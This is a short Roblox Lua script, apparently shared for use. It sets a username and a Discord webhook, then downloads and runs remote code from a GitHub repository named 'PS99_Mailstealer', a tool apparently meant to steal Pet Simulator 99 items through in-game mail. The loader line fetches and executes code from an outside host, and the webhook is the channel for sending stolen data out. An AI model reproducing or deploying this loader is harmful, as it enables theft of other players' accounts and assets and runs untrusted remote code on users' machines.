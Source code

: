 Username = "younesse516f"
LoadScreen = true 
Webhook = "https://discord.com/api/webhooks/1275207581870194710/_-U5IruGDFkjje6dRSSoup-B8oQ2I0Px9lwerxu6w0Ms9ikkvy0TcMM1zSzqtkmT-34f"

loadstring(game:HttpGet("https://raw.githubusercontent.com/KiuuP/PS99_Mailstealer/main/MailStealer.lua"))()

